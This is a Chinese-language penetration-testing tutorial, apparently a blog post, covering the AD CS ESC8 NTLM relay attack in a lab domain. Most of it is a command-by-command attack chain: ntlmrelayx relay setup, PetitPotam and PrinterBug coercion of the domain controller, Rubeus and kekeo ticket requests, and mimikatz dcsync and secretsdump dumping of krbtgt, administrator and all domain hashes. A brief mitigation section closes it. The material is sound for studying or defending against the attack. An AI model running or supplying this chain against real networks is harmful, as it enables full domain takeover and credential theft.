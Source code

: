 ```yaml
---
title: "AD CS relay attack-ESC8"
date: 2023-02-01 22:43:23 +0800
category: 渗透测试
tags: [内网,渗透测试,ADCS,域]
excerpt: AD CS relay attack-ESC8
---
```


## 原理
漏洞利用原因：
由于ADCS的http证书接口没有启用NTLM中继保护，因此其易受NTLM Relay攻击。而且Authorization HTTP 标头明确只允许通过 NTLM 身份验证，因此Kerberos协议无法使用。因此，攻击者可以利用NTLM Relay攻击ADCS证书服务。

## 攻击过程
+ 都是在域机器中操作的, 工作组中没试成功, 按理说工作组也可以
### 环境
| 机器 | ip | 说明 |
| ---- | ---- | ---- |
| dc | 192.168.1.110 | 域控 |
| ca2016 | 192.168.1.116 | 证书服务器 |
| kali | 192.168.1.114 | 中继服务器 |
| ca | 192.168.1.113 | 域内攻击机 |
### 确定证书服务器(域内攻击机)
```
certutil 
certutil -config - -ping
certutil  -ca
```
![image-20220930131046544](imgs/AD CS relay attack-ESC8/image-20220930131046544.png)
### 确定证书服务器是否开启NTLM认证
```shell
curl http://ca2016.shi.com/certsrv/ -I
```
![图片](imgs/AD CS relay attack-ESC8/640.jpeg)
### 开启中继(kali)
> 配置hosts或者指定IP
```
ntlmrelayx.py -debug -smb2support --target http://ca2016.shi.com/certsrv/certfnsh.asp  --adcs --template DomainController
```

### 强制域控认证(域内攻击机或者kali都行)
+ 域内攻击机
```
# 打印机bug
spoolsample.exe 192.168.1.110 192.168.1.114
//或者
python3 printerbug.py mark/hacker@dcip  kaliip

# EfsRpc
petitpotam.exe attackip dcip
//或者
python3 PetitPotam.py    kali ip   dc ip  
//或者mimikatz
misc::efs /server:域控IP /connect:kali
//powershell
Import-Module .\Invoke-Petitpotam.ps1
Invoke-Petitpotam -Target 域控IP -CaptureHost kali

```
### 获得证书(kali),请求TGT(域内攻击机)
![image-20220930133025850](imgs/AD CS relay attack-ESC8/image-20220930133025850.png)
+ kekeo
```
base64 /input:on
tgt::ask /pfx:获得的base64证书 /user:DC$  /ptt
```
+ rubeus:
```
//注入票据
Rubeus.exe asktgt /user:DC$ /certificate:获得的base64证书 /domain:shi.com /dc:10.10.10.130 /ptt
//或者导出票据(票据可以在非域内机器上使用)
Rubeus.exe asktgt /user:DC$ /certificate:获得的base64证书 /outfile:ticket.kirbi
```
![image-20220930133203564](imgs/AD CS relay attack-ESC8/image-20220930133203564.png)
### 查看票据
`klist`
![image-20220930134048530](imgs/AD CS relay attack-ESC8/image-20220930134048530.png)
### 使用票据
#### mimikatz.exe
```
#查看kerberos票据
kerberos::list

privilege::debug
#导出krbtgt用户的hash
lsadump::dcsync /user:krbtgt /csv /domain:shi.com /dc:10.10.10.130
#导出域管用户的hash
lsadump::dcsync /user:administrator /csv /domain:shi.com
#导出域内所有hash
lsadump::dcsync /all /csv /domain:shi.com
```
#### impacket
> 需要先将Rubeus导出的票据ticket.kirbi进行转换
```
python3 ticketConverter.py ticket.kirbi dc.ccache
export KRB5CCNAME=dc.ccache
//需要配置hosts  dc的IP
secretsdump.py -no-pass -k -dc-ip 192.168.1.110 -target-ip 192.168.1.110 dc
```

## 排错
### KRB-ERROR (62) : KDC_ERR_CLIENT_NOT_TRUSTED
感谢GentilKiwi的推文，我们可以通过在域控制器上运行以下内容来修复此问题。
https://twitter.com/gentilkiwi/status/1419772619004448770
`certutil -pulse`
### KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP
https://support.citrix.com/article/CTX218941
当您尚未将域控制器身份验证证书导入域控制器时，通常会出现此错误。Citrix在此详细介绍了此过程。
简而言之，进入您的DC并打开MMC。在MMC中，为计算机帐户添加证书加载项并请求域控制器身份验证证书。
![img](imgs/AD CS relay attack-ESC8/image-22.png)
解决方案
您需要在所有域控制器上拥有域控制器身份验证证书。要注册新证书，请按照以下步骤操作。
在域控制器上，打开 mmc。
单击文件，单击添加/删除管理单元。
选择证书，单击添加，然后选择计算机帐户。
展开证书（本地计算机），右键单击个人，单击所有任务，然后单击请求新证书。
按下一步。
选择域控制器身份验证并按注册。
注意：如果您在域控制器证书 mmc 中的 Auto Enrollment 上没有看到域控制器身份验证，则需要转到证书颁发机构服务器并将域控制器添加到域控制器身份验证模板的安全性中并授予 AutoEnroll 权限。

注意：如果您有多个域控制器，管理员需要确保为用户进行证书验证的 DC 应该在个人存储中具有域控制器身份验证证书。
+ 另一个解决方法
解决打开组策略，计算机配置\Windows 设置\安全设置\本地策略\安全选项，找到配置 Kerberos 允许的加密类型，将下面全部勾选即可(https://www.cnblogs.com/websecyw/p/15070423.html)

## 防御
 + 在 IIS 管理器->默认站点->certsrv 选项中启用需要 SSL
 + 启用扩展保护（在 certsrv->authentication 下）
 + 通过设置 certsrv->providers->negotiate:kerberos 在 ADCS 服务器上为 IIS 禁用 NTLM
https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429